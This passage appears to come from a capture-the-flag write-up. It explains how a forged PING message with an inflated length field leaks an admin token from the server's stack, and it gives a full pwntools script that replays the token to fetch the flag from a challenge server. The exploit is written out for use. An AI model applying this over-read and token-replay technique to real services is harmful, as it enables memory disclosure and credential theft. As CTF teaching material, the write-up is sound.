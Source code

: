 This allows us to read some of the stack of the program! If we look really closely, we can also notice something else: to implement the admin cleanup function, a token is needed. However, the token is taken from our request, but it is taken from the database and it is saved on the stack. Due to the stack layout, right after the `PONG` response there is the admin token that we need to read the flag.

We can finally get the flag with the following script:

```py
#!/usr/bin/env python3

from pwn import *

HOST = "34.146.54.86"
PORT = 10007

exe = ELF("./server_patched")

context.binary = exe
context.log_level = "debug"
context.terminal = ["kitty"]
io = None


def conn(*a, **kw):
    if args.LOCAL:
        return process([exe.path], env={"LD_LIBRARY_PATH": "."}, **kw)
    elif args.GDB:
        return gdb.debug([exe.path], env={"LD_LIBRARY_PATH": "."}, gdbscript="", **kw)
    else:
        return remote(HOST, PORT, **kw)


def msg(command, length, data, session=b"\x00" * 16, version=1):
    assert len(session) == 16
    return p8(version) + p8(command) + session + p16(length, endian="big") + data


def main():
    global io
    io = conn(level="debug")

    ## good luck pwning :)
    data = b"PING"
    io.send(msg(1, 0x400, data))  ## ping with fake payload length
    io.recv(8)
    token = io.recv(16)

    io.send(msg(6, 0, b"", session=token))  ## get flag

    io.interactive()


if __name__ == "__main__":
    main()

```
